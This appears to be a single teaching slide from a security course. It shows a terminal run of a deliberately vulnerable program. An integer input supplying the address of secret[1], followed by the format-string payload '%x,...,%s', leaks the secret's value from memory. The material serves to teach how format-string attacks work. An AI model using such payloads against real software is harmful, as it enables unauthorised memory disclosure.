

# Print Secret - Provide Input
$ ./vul_prog
The variable secret's address is 0xbfb0a940 (on stack)
The variable secret's value is 0x 8f92008 (on heap)
secret[0]'s address is 0x 8f92008 (on heap)
secret[1]'s address is 0x 8f9200c (on heap)
Please enter a decimal integer
150544396
Please enter a string
%x,%x,%x,%x,%x,%x,%x,%x,%s
bfb0a948,1,b766a309,bfb0a96f,bfb0a96e,0,bfb0aa54,8f92008,U
The original secrets: 0x44 -- 0x55
The new secrets:  	0x44 -- 0x55

Secret[1] value